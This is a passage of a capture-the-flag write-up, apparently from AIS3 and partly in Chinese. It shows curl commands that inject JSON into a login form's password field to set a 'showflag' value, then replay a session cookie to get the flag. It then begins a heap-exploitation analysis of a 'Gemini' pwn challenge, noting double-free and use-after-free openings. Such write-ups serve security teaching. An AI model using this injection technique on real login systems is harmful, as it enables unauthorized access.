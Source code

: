 ``` bash
curl 'http://quiz.ais3.org:8002/login' --data  'username=&password=","password":null, "showflag": true, "a":"a'  -i
curl 'http://quiz.ais3.org:8002/' --cookie 'session=.eJyrViotTi2KT0ksSVSyUqqOUSrOyC9Py0lMj1GyUkhLzClO1VGIAavJS8xNBQnGKMUogcQKEouLy_OLUuBiKEJ5pTk5IFXIxpUUlYJNSwRywGStUi0AwVkpww.YKhsPw.Y3BkGf6j_x0SsvGGC2moq55XAsQ; HttpOnly; Path=/' -i
```

```
AIS3{/r/badUIbattles?!?!}
```

# pwn

由於這些 pwn 皆有 docker 配置檔案，可以在本機配置之後取出 libc 和 ld 進行測試與計算 offset。

## Gemini (solved)

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

這題可以兩次 del 發現會觸發 double free 檢查，或者產生 use after free 等等的可能

![image-20210524044057039](./img/image-20210524044057039.png)

heap 的漏洞與不同 malloc 大小的 bin 相關，因此這裡可以看到新增 record 會 malloc 0x20，構造時可能需要注意這個大小。而使用者也可以自己控制 name 的大小，可以用來操控是否要放到 0x30 的 bin 中。

![image-20210524050154156](./img/image-20210524050154156.png)
